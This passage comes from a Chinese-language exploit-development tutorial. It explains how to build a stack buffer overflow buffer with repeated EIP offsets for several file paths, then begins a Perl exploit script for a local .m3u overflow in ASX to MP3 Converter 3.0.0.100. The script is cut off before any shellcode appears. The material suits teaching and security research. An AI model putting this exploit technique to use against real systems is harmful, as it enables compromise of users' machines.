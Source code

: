 从技术上讲，这将完成工作，最后我们将得到一个如下所示的缓冲区

JUNK (A’s) + EIP + JUNK (A’s) + EIP + JUNK (As) + EIP … + NOPS + SHELLCODE + FILL

当然，这不是非常有效的编码，并且使添加和删除路径变得很麻烦，因此让我们利用脚本的力量使其更易于管理。 

首先，我们将创建一个可能路径的数组。我创建了一个有几个可能的路径，虽然还有更多.

![9](part3/9.png)

出于说明目的，我还包括了手动计算的偏移量（作为注释），尽管通过编写偏移量创建脚本，其实我们不需要为每个文件路径实际执行此操作。接下来，我们创建一个循环并使用数组的内容动态构建缓冲区的 junk + eip 部分。

![10](part3/10.png)

正如您在上面看到的，我们只是遍历数组并使用每个文件路径的长度（减去共享的“C:\”）来战略性地放置我们的偏移量

最后的攻击脚本

```perl
#!/usr/bin/perl

######################################################################
# Exploit Title: ASX to MP3 Converter 3.0.0.100 (.m3u) - Local BOF
# Date: 11-16-2013
# Exploit Author: Mike Czumak (T_v3rn1x) -- @SecuritySift
# Vulnerable Software: ASX to MP3 Converter 3.0.0.100
# Software: http://www.mini-stream.net/asx-to-mp3-converter/download/
# Tested On: Windows XP SP3
# Credits: Older versions found to be vulnerable to similar bof
# -- http://www.exploit-db.com/exploits/8629/
######################################################################

my $buffsize = 50000; # sets buffer size for consistent sized payload

# the application incorporates the path of the m3u file in the buffer
# this can hinder successful execution by changing the offset to eip
# to make this more reliable, we'll create a buffer w/ several offsets
# to potential file locations (desktop, my music, my playlists, etc)
# if the m3u file is placed in any of these locations it should work

# if the m3u file is saved in root dir (c:\, z:\, etc) eip offset = 26121
# we can use that value to calculate other relative offsets based on file path length

my @offsets = ( 'C:\Documents and Settings\Administrator\My Documents\My Music\My Playlists\\', # offset at 26049
'C:\Documents and Settings\All Users\Documents\My Music\My Playlists\\', # offset at 26056
'C:\Documents and Settings\Administrator\My Documents\My Music\\', # offset at 26062
'C:\Documents and Settings\All Users\Documents\My Music\\', # offset at 26069
```